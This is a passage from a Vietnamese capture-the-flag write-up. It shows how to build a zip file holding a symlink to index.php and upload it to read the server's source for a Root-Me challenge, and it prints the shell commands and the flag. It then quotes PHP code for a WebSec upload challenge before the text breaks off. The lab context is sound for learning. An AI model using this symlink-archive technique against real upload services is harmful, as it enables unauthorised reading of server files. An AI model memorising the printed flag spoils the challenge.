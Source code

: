 Vậy thì để đọc được file index.php, ta sẽ tạo 1 symlink từ file txt tham chiếu tới file index.php sau đó nén zip lại và upload lên server.

> Cú pháp tạo symlink trong Linux: `ln -s /path/to/target /path/to/symlink`
>
> Cú pháp tạo symlink trong Windows: `mklink /path/to/symlink /path/to/target`

Ở trên ta thấy file upload được lưu ở `/web-serveur/ch51/tmp/upload/[random]/` nên khả năng file index.php được lưu ở `/web-serveur/ch51/`. Các bước tạo symlink và nén zip như sau:

```
$touch index.php
$mkdir -r ./test1/test2/test3/
$cd test1/test2/test3/
$ln -s ../../../index.php test.txt
$zip -y test.zip test.txt
```

Upload file test.zip và truy cập tới file test.txt được giải nén trên server thì nhận được flag

![image](https://user-images.githubusercontent.com/80137840/222907524-f54d0ed0-1729-4133-a8e7-a7572b0cb3bc.png)

Submit flag: `N3v3r_7rU5T_u5Er_1npU7`

![image](https://user-images.githubusercontent.com/80137840/222907551-e1e12586-ee21-4614-8c4b-68c1cc65c050.png)


## Level 24 - WebSec

Truy cập challenge, ta thấy có ô input nhập filename cùng source code

![image](https://user-images.githubusercontent.com/80137840/222907758-0c9b0faa-c784-4416-b9df-0071a5817c29.png)

```PHP
<?php
ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

session_start();

include 'clean_up.php';

/* periodic cleanup */
foreach (glob("./uploads/*") as $file) {
    if (is_file($file)) {
        unlink($file);
    } else {
        if (time() - filemtime($file) >= 60 * 60 * 24 * 7) {
            Delete($file);
        }
    }
}

$upload_dir = sprintf("./uploads/%s/", session_id());
@mkdir($upload_dir, 0755, true);

/* sandboxing ! */
chdir($upload_dir);
ini_set('open_basedir', '.');

$p = "list";
$data = "";
$filename = "";

if (isset($_GET['p']) && isset($_GET['filename']) ) {
    $filename = $_GET['filename'];
    if ($_GET['p'] === "edit") {
```